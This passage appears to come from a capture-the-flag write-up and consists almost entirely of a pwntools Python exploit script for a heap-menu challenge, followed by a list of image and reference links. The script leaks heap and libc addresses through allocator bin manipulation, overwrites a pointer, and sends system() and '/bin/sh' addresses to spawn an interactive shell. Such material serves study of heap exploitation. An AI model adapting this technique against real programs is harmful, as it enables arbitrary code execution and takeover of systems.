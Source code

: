 ```py
    start(p64(0)+p64(buf_addr+0x20), p64(0))

    add(0,0xe9)
    add(1,0xe9)
    free(0)
    free(1)
    add(0, 0x5b25)
    show(0)
    heap_addr = u64(p.recv(8))
    print('heap: '+hex(heap_addr))
    free(0)

    for i in range(5):
        add(0, 0x88)
        free(0)

    add(0, 0x2a0)
    for i in range(7):
        add(1, 0x2a0)
        free(1)
    free(0)

    add(0, 0x210) #cut unsortedbin
    free(0)
    add(0, 0x2a0) #smallbin 1
    #gdb.attach(p)

    add(1, 0x100)
    free(0)
    free(1)
    #gdb.attach(p)

    add(1, 0x210) #cut unsortedbin
    #free(0)
    add(0, 0x2a0) #smallbin 2
    #gdb.attach(p)

    edit(1, 'a'*0x210+p64(0)+p64(0x91)+p64(heap_addr+0x6e0)+p64(buf_addr-0x10))
    free(0)
    add(0, 0x88)

    sla('choice: ', str(5))
    p.recvuntil('message: ')
    libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3ebd20
    print('libc_base: '+hex(libc_base))
    system_addr = libc_base + libc.sym['__libc_system']
    sh_addr = libc_base + libc.search('/bin/sh').next()

    sla('choice: ', str(6))
    #gdb.attach(p)
    p.recvuntil('end message: ')
    p.send(p64(system_addr)+p64(0)*5+p64(sh_addr))
    sla('choice: ', str(7))

    p.interactive()
```


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png